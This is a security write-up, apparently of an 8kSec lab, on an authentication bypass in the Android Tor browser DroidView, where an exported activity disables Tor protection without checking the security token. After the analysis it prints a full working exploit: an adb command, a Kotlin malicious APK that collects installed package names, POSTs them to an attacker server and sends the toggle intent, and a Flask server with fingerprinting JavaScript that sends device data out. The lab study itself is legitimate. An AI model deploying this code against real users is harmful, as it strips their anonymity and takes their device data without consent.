


# 8kSec DroidView — Security Analysis & Exploitation

## Overview

**Target:** `com.eightksec.droidview`

DroidView is an Android application that provides a private browsing environment using Tor. During static analysis, I identified multiple exported Android components and investigated how external intents were processed.

The main vulnerability was found in the security-toggle functionality.

The application exposes an exported `MainActivity` that accepts the custom action:

```text
com.eightksec.droidview.TOGGLE_SECURITY
```

The application also contains a security token mechanism intended to protect the security-toggle functionality.

However, the token validation is implemented inconsistently between two different execution paths.

The broadcast receiver validates the token, while the `MainActivity.onNewIntent()` path does not.

This allows another application to disable DroidView's Tor protection without possessing the security token.

---

# 1. Static Analysis

## 1.1 Identify the Package

The target package is:

```text
com.eightksec.droidview
```

The main activity is:

```text
com.eightksec.droidview.MainActivity
```

---

## 1.2 Manifest Analysis

The first interesting finding was the exported `MainActivity`.

```xml
<activity
    android:name="com.eightksec.droidview.MainActivity"
    android:exported="true"
    android:configChanges="screenSize|orientation">

    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>

    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>

        <data android:scheme="http"/>
        <data android:scheme="https"/>
    </intent-filter>

    <intent-filter>
        <action android:name="com.eightksec.droidview.LOAD_URL"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>

    <intent-filter>
        <action android:name="com.eightksec.droidview.TOGGLE_SECURITY"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>

</activity>
```

The activity is explicitly exported and exposes the `TOGGLE_SECURITY` action.

This means another application can potentially start the activity using an explicit or implicit intent.

---

# 2. Token Service Analysis

The application also exposes:

```xml
<service
    android:name="com.eightksec.droidview.TokenService"
    android:exported="true">

    <intent-filter>
        <action android:name="com.eightksec.droidview.ITokenService"/>
        <action android:name="com.eightksec.droidview.TOKEN_SERVICE"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>

</service>
```

The service exposes an AIDL interface:

```java
interface ITokenService {
    boolean disableSecurity();
    String getSecurityToken();
}
```

The implementation contains:

```java
@Override
public boolean disableSecurity() {
    return true;
}

@Override
public String getSecurityToken() throws RemoteException {
    return SecurityTokenManager
        .getInstance(TokenService.this)
        .getCurrentToken();
}
```

Initially, this looked like a potential route to obtain the security token.

However, further analysis showed that the token was not necessary for the intended attack.

The important vulnerability was located directly in `MainActivity`.

---

# 3. Security Toggle Analysis

## 3.1 `onNewIntent()`

The activity processes new intents through:

```java
@Override
protected void onNewIntent(Intent intent) {
    super.onNewIntent(intent);

    if (ACTION_TOGGLE_SECURITY.equals(intent.getAction())) {
        handleSecurityToggle(intent);
    } else {
        handleIntent(intent);
    }
}
```

This is particularly interesting because `ACTION_TOGGLE_SECURITY` is directly passed to:

```java
handleSecurityToggle(intent);
```

---

# 4. Vulnerable Code

The vulnerable method is:

```java
private void handleSecurityToggle(Intent intent) {
    if (intent == null) {
        return;
    }

    try {
        boolean booleanExtra =
            intent.getBooleanExtra(
                EXTRA_ENABLE_SECURITY,
                true
            );

        this.securitySwitch.setChecked(booleanExtra);

        setSecurityEnabled(booleanExtra);

        if (booleanExtra ||
            this.webView.getUrl() == null ||
            this.webView.getUrl().equals("about:blank")) {
            return;
        }

        final String url =
            this.webView.getUrl();

        clearWebViewProxy();

        this.webView.clearCache(true);
        this.webView.clearHistory();
        this.webView.loadUrl("about:blank");

        new Handler().postDelayed(
            new Runnable() {
                @Override
                public final void run() {
                    MainActivity.this
                        .m53xdf6bc950(url);
                }
            },
            500L
        );

    } catch (Exception e) {
        Toast.makeText(
            this,
            "Error toggling security: "
                + e.getMessage(),
            Toast.LENGTH_SHORT
        ).show();
    }
}
```

The critical line is:

```java
setSecurityEnabled(booleanExtra);
```

The value comes directly from:

```java
intent.getBooleanExtra(
    EXTRA_ENABLE_SECURITY,
    true
);
```

There is **no security-token validation before changing the security state**.

---

# 5. Why the Token Mechanism Does Not Protect This Path

The application does contain another path that performs token validation.

The dynamic receiver contains:

```java
String stringExtra =
    intent.getStringExtra(
        MainActivity.EXTRA_SECURITY_TOKEN
    );

if (!booleanExtra &&
    !MainActivity.this
        .validateSecurityToken(stringExtra)) {

    Toast.makeText(
        context,
        "Error: Invalid security token",
        Toast.LENGTH_SHORT
    ).show();

}
```

Therefore, the intended broadcast path looks like:

```text
Broadcast
   │
   
security-toggle receiver
   │
   
validateSecurityToken()
   │
   ├── invalid → reject
   │
   └── valid → disable security
```

However, the Activity path looks like:

```text
startActivity()
      │
      
MainActivity.onNewIntent()
      │
      
handleSecurityToggle()
      │
      
setSecurityEnabled(false)
```

There is no call to:

```text
validateSecurityToken()
```

in this path.

This creates an authentication bypass caused by inconsistent validation between two entry points.

---

# 6. Root Cause

The root cause is **missing authorization validation in an exported Activity intent handler**.

The application assumes that the security-toggle operation will only be reached through the protected flow, but `MainActivity` exposes another reachable entry point.

The same security-sensitive operation can therefore be reached through two different interfaces:

```text
Protected interface
        |
Token validation
        |
Disable security


Unprotected interface
        |
onNewIntent()
        |
Disable security
```

The second path bypasses the intended authorization check.

---

# 7. Verifying the Vulnerability

Before writing the malicious APK, I verified the behavior directly using ADB.

```bash
adb shell am start \
    -n com.eightksec.droidview/.MainActivity \
    -a com.eightksec.droidview.TOGGLE_SECURITY \
    --ez enable_security false \
    --activity-single-top
```



---

# 8. Attack Chain

The complete exploitation chain is:

```text
Malicious Application
        │
        ├──────────────────────────┐
        │                          │
                                  
Enumerate installed apps       Launch DroidView
        │                          │
                                  
POST /collect                 ACTION_VIEW
                                   │
                                   
                            DroidView MainActivity
                                   │
                                   
                            Attacker-controlled URL
                                   │
                                   
                               WebView
                                   │
                                   
                         JavaScript fingerprinting
                                   │
                                   
                              POST /collect

        Malicious application
                 │
                 
      TOGGLE_SECURITY intent
                 │
                 
        startActivity()
                 │
                 
        MainActivity.onNewIntent()
                 │
                 
        handleSecurityToggle()
                 │
                 
       setSecurityEnabled(false)
                 │
                 
              stopTor()
                 │
                 
        clearWebViewProxy()
```

The important part is that the attacker does **not** need the security token.

---

# 9. Malicious Application PoC

The malicious application first collects installed application package names.

It then launches DroidView with an attacker-controlled URL.

Finally, it sends the vulnerable `TOGGLE_SECURITY` intent through `startActivity()`.

## `MainActivity.kt`

```kotlin
package com.example.droidview_exploit

import android.app.Activity
import android.content.ComponentName
import android.content.Intent
import android.net.Uri
import android.os.Bundle
import android.util.Log
import java.net.HttpURLConnection
import java.net.URL
import kotlin.concurrent.thread

class MainActivity : Activity() {

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        Log.d(TAG, "[*] DroidView exploit started")

        collectInstalledApps()

        openDroidView()

        window.decorView.postDelayed({
            disableDroidViewSecurity()
        }, 1000)
    }

    private fun collectInstalledApps() {
        thread {
            try {
                val applications =
                    packageManager
                        .getInstalledApplications(0)

                val packages =
                    applications.map {
                        it.packageName
                    }

                Log.d(
                    TAG,
                    "[+] Found ${packages.size} installed packages"
                )

                val body = buildString {
                    append("packages=")

                    packages.forEachIndexed {
                        index,
                        packageName ->

                        if (index > 0) {
                            append(",")
                        }

                        append(packageName)
                    }
                }

                postData(
                    "$ATTACKER_URL/collect",
                    body
                )

            } catch (e: Exception) {
                Log.e(
                    TAG,
                    "[-] Failed to collect applications",
                    e
                )
            }
        }
    }

    private fun openDroidView() {
        try {

            val intent = Intent(
                Intent.ACTION_VIEW,
                Uri.parse(ATTACKER_URL)
            ).apply {

                setPackage(
                    DROIDVIEW_PACKAGE
                )

                addFlags(
                    Intent.FLAG_ACTIVITY_NEW_TASK
                )
            }

            Log.d(
                TAG,
                "[*] Launching DroidView"
            )

            startActivity(intent)

        } catch (e: Exception) {

            Log.e(
                TAG,
                "[-] Failed to launch DroidView",
                e
            )
        }
    }

    private fun disableDroidViewSecurity() {
        try {

            val toggle = Intent(
                TOGGLE_SECURITY_ACTION
            ).apply {

                component = ComponentName(
                    DROIDVIEW_PACKAGE,
                    DROIDVIEW_ACTIVITY
                )

                putExtra(
                    EXTRA_ENABLE_SECURITY,
                    false
                )

                addFlags(
                    Intent.FLAG_ACTIVITY_NEW_TASK or
                    Intent.FLAG_ACTIVITY_SINGLE_TOP
                )
            }

            Log.d(
                TAG,
                "[*] Sending TOGGLE_SECURITY Activity intent"
            )

            
            startActivity(toggle)

            Log.d(
                TAG,
                "[+] Toggle intent sent"
            )

        } catch (e: Exception) {

            Log.e(
                TAG,
                "[-] Failed to disable DroidView security",
                e
            )
        }
    }

    private fun postData(
        targetUrl: String,
        data: String
    ) {

        var connection:
            HttpURLConnection? = null

        try {

            connection =
                URL(targetUrl)
                    .openConnection()
                    as HttpURLConnection

            connection.requestMethod =
                "POST"

            connection.doOutput =
                true

            connection.connectTimeout =
                5000

            connection.readTimeout =
                5000

            connection.setRequestProperty(
                "Content-Type",
                "application/x-www-form-urlencoded"
            )

            connection.outputStream.use {
                output ->
                output.write(
                    data.toByteArray()
                )
            }

            Log.d(
                TAG,
                "[+] POST $targetUrl -> " +
                    "${connection.responseCode}"
            )

        } catch (e: Exception) {

            Log.e(
                TAG,
                "[-] POST failed",
                e
            )

        } finally {

            connection?.disconnect()
        }
    }

    companion object {

        private const val TAG =
            "DroidViewExploit"

        private const val DROIDVIEW_PACKAGE =
            "com.eightksec.droidview"

        private const val DROIDVIEW_ACTIVITY =
            "com.eightksec.droidview.MainActivity"

        private const val TOGGLE_SECURITY_ACTION =
            "com.eightksec.droidview.TOGGLE_SECURITY"

        private const val EXTRA_ENABLE_SECURITY =
            "enable_security"

        private const val ATTACKER_URL =
            "http://192.168.1.174:8080/"
    }
}
```

---

# 10. Malicious Application Manifest

The application requires Internet access and package visibility for DroidView.

```xml
<?xml version="1.0" encoding="utf-8"?>

<manifest
    xmlns:android="http://schemas.android.com/apk/res/android">

    <uses-permission
        android:name="android.permission.INTERNET" />

    <queries>

        <package
            android:name="com.eightksec.droidview" />

    </queries>

    <application
        android:allowBackup="false"
        android:label="DroidView_exploit"
        android:supportsRtl="true"
        android:theme="@android:style/Theme.Material.Light">

        <activity
            android:name=".MainActivity"
            android:exported="true">

            <intent-filter>

                <action
                    android:name="android.intent.action.MAIN" />

                <category
                    android:name="android.intent.category.LAUNCHER" />

            </intent-filter>

        </activity>

    </application>

</manifest>
```

---

# 11. Attacker Server

I used a Flask server to receive the requests generated by the PoC.

```python
from flask import Flask, request

app = Flask(__name__)


@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def index(path):

    print("\n========== DroidView Request ==========")

    print("Path:", "/" + path)
    print("Remote IP:", request.remote_addr)
    print("User-Agent:", request.headers.get("User-Agent"))

    print("\nHeaders:")

    for key, value in request.headers.items():
        print(f"{key}: {value}")

    return """
<!DOCTYPE html>

<html>

<head>
    <title>DroidView Lab</title>
</head>

<body>

<h1>DroidView Lab</h1>

<script>

async function collectData() {

    const data = {

        userAgent:
            navigator.userAgent,

        platform:
            navigator.platform,

        language:
            navigator.language,

        languages:
            navigator.languages,

        cookiesEnabled:
            navigator.cookieEnabled,

        memory:
            navigator.deviceMemory || null,

        cores:
            navigator.hardwareConcurrency || null,

        screenWidth:
            screen.width,

        screenHeight:
            screen.height,

        colorDepth:
            screen.colorDepth
    };

    console.log(data);

    try {

        await fetch("/collect", {

            method: "POST",

            headers: {
                "Content-Type":
                    "application/json"
            },

            body:
                JSON.stringify(data)
        });

        console.log(
            "Data sent"
        );

    } catch (e) {

        console.log(
            "Collection failed:",
            e
        );
    }
}

collectData();

</script>

</body>

</html>
"""


@app.route("/collect", methods=["POST"])
def collect():

    print(
        "\n========== COLLECTED DATA =========="
    )

    print(
        "Remote IP:",
        request.remote_addr
    )

    print("\nHeaders:")

    for key, value in request.headers.items():

        print(
            f"{key}: {value}"
        )

    print("\nJSON:")

    print(
        request.get_json(
            silent=True
        )
    )

    print("\nForm:")

    print(
        request.form
    )

    return "OK", 200


if __name__ == "__main__":

    app.run(
        host="0.0.0.0",
        port=8080
    )
```

---

# 12. Observed Result

After installing and launching the malicious APK, the Flask server received a request from DroidView.




---

# 16. Security Impact

An attacker-controlled application can abuse the exported Activity to disable DroidView's security mechanism without obtaining the security token.

The vulnerable intent also enables an attacker to control the security state of the application through an externally supplied intent.

When combined with DroidView's ability to load external URLs, this creates a meaningful attack chain where an attacker-controlled application can:

1. Interact with DroidView's exported Activity.
2. Disable the Tor security mechanism.
3. Cause DroidView to load an attacker-controlled page.
4. Execute JavaScript within the WebView.
5. Send WebView-exposed information to an attacker-controlled server.
6. Enumerate installed application package names, subject to Android package-visibility restrictions.


